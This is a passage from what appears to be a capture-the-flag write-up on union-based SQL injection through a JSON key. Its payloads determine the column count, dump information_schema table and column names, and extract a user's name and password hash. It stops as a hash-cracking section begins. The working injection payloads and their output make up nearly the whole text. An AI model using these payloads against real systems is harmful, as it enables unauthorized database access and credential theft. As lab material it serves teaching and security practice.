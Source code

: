 Fit the query to the number of fields
```
{"asdf' union select 1 -- -":"1"}     # False 
{"asdf' union select 1,2 -- -":"1"}     # False
{"asdf' union select 1,2,3 -- -":"1"}     # True as there are 3 fields
{"asdf' union select 1,2,3,4 -- -":"1"}     # False
```

Use the product id field (2) to concatenate and dump all table names from the information schema
```
{"asdf' union select 1,(select group_concat(table_name separator '|') from information_schema.tables),3 -- -":"1"}
```
```bash
ALL_PLUGINS|APPLICABLE_ROLES|CHARACTER_SETS|CHECK_CONSTRAINTS|COLLATIONS|COLLATION_CHARACTER_SET_APPLICABILITY|COLUMNS|COLUMN_PRIVILEGES|ENABLED_ROLES|ENGINES|EVENTS|FILES|GLOBAL_STATUS|GLOBAL_VARIABLES|KEYWORDS|KEY_CACHES|KEY_COLUMN_USAGE|OPTIMIZER_TRACE|PARAMETERS|PARTITIONS|PLUGINS|PROCESSLIST|PROFILING|REFERENTIAL_CONSTRAINTS|ROUTINES|SCHEMATA|SCHEMA_PRIVILEGES|SESSION_STATUS|SESSION_VARIABLES|STATISTICS|SQL_FUNCTIONS|SYSTEM_VARIABLES|TABLES|TABLESPACES|TABLE_CONSTRAINTS|TABLE_PRIVILEGES|TRIGGERS|USER_PRIVILEGES|VIEWS|CLIENT_STATISTICS|INDEX_STATISTICS|INNODB_SYS_DATAFILES|GEOMETRY_COLUMNS|INNODB_SYS_TABLESTATS|SPATIAL_REF_SYS|INNODB_BUFFER_PAGE|INNODB_TRX|INNODB_CMP_PER_INDEX|INNODB_METRICS|INNODB_LOCK_WAITS|INNODB_CMP|THREAD_POOL_WAITS|INNODB_CMP_RESET|THREAD_POOL_QUEUES|TABLE_STATISTICS|INNODB_SYS_FIELDS|INNODB_BUFFER_PAGE_LRU|INNODB_LOCKS|INNODB_FT_INDEX_TABLE|INNODB_CMPMEM|THREAD_POOL_GROUPS|INNODB_CMP_PER_INDEX_RESET|INNODB_SYS_FOREIGN_COLS|INNODB_FT_INDEX_CACHE|INNODB_BUFFER_POOL_STATS|INNODB_FT_BEING_DELETED|INNODB_SYS_FOREIGN|INNODB_CMPMEM_RESET|INNODB_FT_DEFAULT_STOPWORD|INNODB_SYS_TABLES|INNODB_SYS_COLUMNS|INNODB_FT_CONFIG|USER_STATISTICS|INNODB_SYS_TABLESPACES|INNODB_SYS_VIRTUAL|INNODB_SYS_INDEXES|INNODB_SYS_SEMAPHORE_WAITS|INNODB_MUTEXES|user_variables|INNODB_TABLESPACES_ENCRYPTION|INNODB_FT_DELETED|THREAD_POOL_STATS|user|product
```

Do the same thing to get all columns for the user table
```
{"asdf' union select 1,(select group_concat(column_name separator '|') from information_schema.columns where table_name='user'),3-- -":"1"}
```
```sql
id|username|password
```

And finally dump the data we need
```
{"asdf' union select 1,(select group_concat(concat(username,'|',password) separator ';') from user),3-- -":"1"}
```
```sql
james_mason|fc895d4eddc2fc12f995e18c865cf273
```

## Hash Cracking 
Thats 32 hex so possibly MD5
```bash
printf 'fc895d4eddc2fc12f995e18c865cf273'|wc -c
32
```
